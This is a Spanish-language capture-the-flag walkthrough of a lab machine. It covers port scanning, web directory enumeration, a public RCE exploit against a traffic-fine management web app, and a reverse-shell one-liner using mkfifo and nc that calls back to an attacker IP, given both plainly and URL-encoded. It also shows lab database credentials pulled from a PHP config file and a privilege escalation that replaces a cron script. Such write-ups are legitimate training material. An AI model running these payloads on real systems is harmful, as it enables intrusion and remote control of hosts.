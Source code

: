 
# scanner

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Como vemos el puerto 445 que habitualmente esta asignado al servicio SMB en este caso hay un servidor web apache. Se trataría por tanto de
de un ***virtual host*** del tipo puerto (port virtual-host)

# enumeracion
## servidor web en puerto 80

```
/admin                (Status: 301) [Size: 312] [--> http://10.10.210.74/admin/]
/shadow               (Status: 200) [Size: 25]                                  
/passwd               (Status: 200) [Size: 25] 
```

- En /admin hay un fichero ("id_rsa") que contiene un string que parece una clave privada (VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE)
- En /shadow hay lo que parece un base64 (bm90IHRoaXMgZWFzeSA6RA==). Decodificado: not this easy :D
- En /passwd hay otro string que parece estar codificado en base64 (bm90IHRoaXMgZWFzeSA6RA==). Resulta que es el mismo que el anterior

## servidor en puerto 445
```
/management           (Status: 301) [Size: 322] [--> http://10.10.210.74:445/management/]
```
Si pinchamos en el boton "login" nos lleva a un formulario de identificacion. La pagina parece pertenecer a un sistema de administracion de las
multas de trafico (Traffic Offense Management System). Buscando en exploit-db vemos que este proyecto tiene varias vulnerabilidades. Entre ellas hay
dos tipo RCE (que es el tipo que se menciona en la presentacion de la maquina)
Utilizamos el exploit     que tenemos que corregir primero, porque sino no funciona. Asi obtenemos un  ***webshell***. Ojo es un webshell no un autentico
shell (lo que realmente estamos ejecutando es un parametro en el navegador). Para obtener un verdadero shell tenemos que ejecutar un payload. En este caso el elegido es rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.62.57 4455 >/tmp/f que solo funciona codificado uRL:
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.11.62.57%204455%20%3E%2Ftmp%2Ff
Asi obtenemos un reversed shell. Lo estabilizamos. Tenemos tres usuarios mas con shell:
1. root
2. ubuntu
3. El otro

Este ultimo es el que contiene el flag, pero no podemos leerlo porque no tenemos permisos
Nos vamos al sitio web (/usr/www/). donde hay dos directorios:
1. 80
2. 445: En este hay varios directorios y ficheros. El mas interesante es "initialize.php" que contiene los siguiente:

```
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```
donde podemos ver el usuario y el password:
tms_user:Password@123

## crontab
En crontab tenemos una tarea cuyo propietario es plot-admin que se realiza cada segundo y que consiste en ejecutar un script llamado "backup.sh"
que se encuentra en /var/html/scripts con la suerte de que podemos escribir dentro del directorio scripts y por tanto podemos borrar el 
backup.sh original y sustituirlo por un backup.sh que contenga un payload para un reversed shell (en este caso mkfifo nc). Con esto 
obtenemos un shell de plot_admin

## SUID
Tenemos un suid /usr/bin/doas. Doas es un sustituto de sudo que se configura en un fichero /etc/doas.config. Si vemos este fichero vemos
que plot-admin puede ejecutar como root el comando openssl
